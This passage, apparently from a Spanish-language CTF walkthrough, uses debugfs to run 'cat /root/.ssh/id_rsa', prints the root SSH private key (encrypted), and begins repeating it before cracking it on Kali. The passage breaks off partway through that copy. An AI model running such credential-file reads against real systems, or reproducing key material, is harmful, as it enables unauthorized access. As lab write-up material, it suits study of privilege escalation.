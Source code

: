 ```
debugfs 1.46.2 (28-Feb-2021)
debugfs:
```

Dentro del mismo vamos a ejecutar el siguiente comando simple:

```shell
cat /root/.ssh/id_rsa
```

Info:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,02E266E7A66462FE

tTN5G66QaZHsjOSYG8pFEQqUJUC4lw+WzHs3hbml1+zuLPmnDvUapYFB/4IgQNG2
jp1tebAwENVz/CdS3paB60NB9uosYXHa60Sbi7a31Ej6QqH10UnN/NROSEhqZkt+
dUcQspoDJIvHyvdhm4lIVizfvw1i9epxY+aB9W7vscpN1HAq37WdOn62nnEccLRs
wShZgOeOLTUo5j+C0oQZDi11ZJxEFiwwCFkOqZ+ZEQgshQqgG8PjMvedwuQcFjpN
wgFyQl0ZzGTzaj1iZntc/7G1/9WqXyk3IkpICucALCaSlCZ3Oh0kJd12W27vTKdO
kBpXNU8cgjc+jbIKveFZe6+ZuMwr3Lb9p+f+m7ktcTk/AFxSObuFnHBZN52VE/F4
lVK8vR7Om8qg34REgbvkmrBttg7x4AzUsTZ1WPPJqu3VS0SGVyq8vkpA2ngHmMBC
h3Ca0Xjua55GzCFBGePrQmqOd8jKZ0W6HBfCQyGB/dGg57mKNQy1OSIR4XtFYDYN
wNGTgr4KPebWf1CYRg2nleu3DD3sezutvoVMLJdzoeaLrCPX0pdfEhBase7n72Gy
Q6zqrk07p5GQeuL3tfhBsbHqgK899IMPr2VZPwvaoibDF66UJ1unfEXiPzTTHDo9
5MTR1GK7HYnmtypx3OpCDJMFGwaJgx+o944cxX9DQ63pgwx1R34RoQRfIgqUUrsG
NhEkLvrYFMnlK/dSmouuNFvd868zBlMByQyVYoepyHGhsGDuAP4Mhx7L1Gbj4dRS
dMgfgLN0lM0G+P9QvmmX7TuH1MU1IIfZZw9dCfdUqVVKyegA2RQ7fZG9D8o3l1J0
bIj0VJE7ykqqZEndzgBGRw3bEu3/OKpJM2UFqr/pPlu1w1bVIzHrTPNI5nk6dm77
n/TqwSgU2EQDWK88Z8TORZvuoNA3FelyzxCfRC2HLv0+QrVbyY7dLf3oLH0Zq+gK
1OYVrTKbe4pu0J2R7jZw20pLWeEZPuSE3RmVwcSsVzwb6dBk5rMkwCE5gG1qNh1U
koCqtHzXveisx5I7KrvBj5RTaK/aPX/v8BS/oh8AmiQr2Pqq9K+aQScP2XYh691x
yfVoFGJrZMcG5VD3QxrgWamgcHhug2LotpRbxjc777uK/muI9rUSQLYC06H2Cdf/
kRUH9Ohf3ZrVXpcCMhuCBbOxYBr+TAGjwJIBAYuFMBqhZ4gyaZhxJMCBhQOJHy6c
xR2cUdOAUh9lY40/o0Pwf+5GWiX2u5KmzcZ9iLdJ4NtgYiYMjGMe+0G37PdCXJvG
D+VsowoqCou916TMZUKpYSkzj8q3GLSib6CumVzKDesMLaYiZTOd1ShBqTlYjorp
Dlo5vrgUFk17OS8n0gtQuavBvN+2aM6gMOgiJrXfeLjzPGoY2ypHyNlbp/JI0/Y+
DfE+2kNqriAlvZps1mllIKITk1wNPQ3PVuBW9DkvrSUW7Ye+oMK3WoiQkY4qyu+2
pN0okmXmT5ygTq9KBQUEtjU8RnY27y34nYwCQus0HCA+FfRoxDbJYl0sN2g/Mzjq
PWVlSZLxzcya8sxPBA8gto3H5BxFnTxRXbCBTjTL09imi3QMl9K1emUlG8rSpBsI
-----END RSA PRIVATE KEY-----
```

Vemos que lo hemos conseguido, pero tambien veremos que esta encriptado la clave, por lo que vamos a ver si conseguimos decodificarla con estos comandos desde nuestro `kali`.

> id\_rsa

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,02E266E7A66462FE

tTN5G66QaZHsjOSYG8pFEQqUJUC4lw+WzHs3hbml1+zuLPmnDvUapYFB/4IgQNG2
jp1tebAwENVz/CdS3paB60NB9uosYXHa60Sbi7a31Ej6QqH10UnN/NROSEhqZkt+
dUcQspoDJIvHyvdhm4lIVizfvw1i9epxY+aB9W7vscpN1HAq37WdOn62nnEccLRs
wShZgOeOLTUo5j+C0oQZDi11ZJxEFiwwCFkOqZ+ZEQgshQqgG8PjMvedwuQcFjpN
wgFyQl0ZzGTzaj1iZntc/7G1/9WqXyk3IkpICucALCaSlCZ3Oh0kJd12W27vTKdO
kBpXNU8cgjc+jbIKveFZe6+ZuMwr3Lb9p+f+m7ktcTk/AFxSObuFnHBZN52VE/F4
lVK8vR7Om8qg34REgbvkmrBttg7x4AzUsTZ1WPPJqu3VS0SGVyq8vkpA2ngHmMBC
h3Ca0Xjua55GzCFBGePrQmqOd8jKZ0W6HBfCQyGB/dGg57mKNQy1OSIR4XtFYDYN
wNGTgr4KPebWf1CYRg2nleu3DD3sezutvoVMLJdzoeaLrCPX0pdfEhBase7n72Gy
Q6zqrk07p5GQeuL3tfhBsbHqgK899IMPr2VZPwvaoibDF66UJ1unfEXiPzTTHDo9
5MTR1GK7HYnmtypx3OpCDJMFGwaJgx+o944cxX9DQ63pgwx1R34RoQRfIgqUUrsG
NhEkLvrYFMnlK/dSmouuNFvd868zBlMByQyVYoepyHGhsGDuAP4Mhx7L1Gbj4dRS
```